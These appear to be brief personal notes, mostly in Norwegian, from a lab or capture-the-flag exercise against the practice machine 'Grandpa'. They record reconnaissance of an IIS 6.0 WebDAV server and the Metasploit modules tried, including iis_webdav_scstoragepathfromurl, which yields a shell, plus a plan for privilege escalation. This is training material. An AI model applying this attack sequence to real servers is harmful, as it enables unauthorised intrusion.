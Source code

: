 ## grandpa 10.10.10.14

* Uncommon header 'microsoftofficewebserver' found, with contents: 5.0\_Pub

kjører iis 6.0. kan exploites med webdav?

exploit/windows/iis/iis\_webdav\_upload\_asp skulle fungert, men gjør ikke det. får server error

use auxiliary/scanner/http/http\_put

use exploit/windows/iis/iis\_webdav\_upload\_asp

403 forbidden

[http://10.10.10.14/images/](http://10.10.10.14/images/) eksisterer

10.10.10.14 \(Microsoft-IIS/6.0\) has WEBDAV ENABLED

use exploit/windows/iis/iis\_webdav\_scstoragepathfromurl

**shell - den virker. husk å resete først**

priv esc fra granny skal virke. må bare få lastet opp fil.

